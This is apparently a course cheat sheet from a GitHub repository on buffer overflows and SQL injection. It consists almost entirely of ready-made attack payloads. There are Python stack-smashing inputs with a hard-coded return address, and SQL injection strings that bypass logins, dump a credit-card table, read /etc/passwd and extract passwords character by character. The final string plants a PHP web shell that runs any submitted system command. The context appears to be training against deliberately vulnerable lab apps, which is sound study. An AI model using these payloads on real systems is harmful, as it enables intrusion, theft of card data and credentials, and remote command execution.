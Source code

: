 # UNIMORE-cyber-security

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
> a space after the -- (comment macro) is required
```commandline
'-- 
```
```commandline
' or ''='' -- 
```
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccnumber, ccv, expiration,null,null,null from credit_cards -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
scotty' AND password=(SELECT password FROM accounts WHERE username = 'scotty') -- 
```
```commandline
' OR LENGTH((SELECT password FROM accounts WHERE username='scotty'))=8 -- 
```
```commandline
john' AND LENGTH(password)=6; -- 
```
```commandline
john' AND SUBSTRING(password,-6,1)='m'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o' AND SUBSTRING(password,-4,1)='n'; --
```
```commandline
' union select null,null,null,null,3,2,'<html><head></head><body><h1>Injection mode:</h1><form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/injection.php' -- 
```
